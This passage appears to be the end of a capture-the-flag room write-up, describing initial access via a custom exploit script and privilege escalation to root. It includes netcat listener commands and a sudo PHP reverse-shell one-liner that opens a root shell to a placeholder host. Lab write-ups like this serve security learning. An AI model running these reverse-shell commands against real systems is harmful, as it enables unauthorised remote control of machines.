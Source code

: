 Then we open the exploit and a listener on the host

On host: `nc -lvnp 6970`

On target as ada:

```console
python3 exploit.py 127.0.0.1 80 / app s4Ucbrme shell.sh
```

This will allow us to connect on the target as `www-data`. Next we can check
some of the usual things, like `env`, `sudo -l`, etc. Luckily `www-data` can
run php as root using sudo. So we can create another revshell with

```console
sudo php -r '$sock=fsockopen("HOST_IP",6971);exec("/bin/bash <&3 >&3 2>&3");'
```

and on the host we need to run `nc -lvnp 6971`

This will allow us to connect as root. And we find the flag in the root home.

**Second Flag**: `cat /root/.root.txt`

# Conclusion

A straightforward CTF-like room, with very small attack surface. I have looked
into some interesting topics, like lateral movement and some simple exploits. I
feel like the hardest part of the challenge was getting the initial access. I
think it was hard because you need to understand how a potential C2 would work.
And also because it is discouraging when you have to write the exploit code
yourself, and not be able to go full script kiddie mode with existing tools. At
the same time, it is this type of challenge that helps you learn the most.
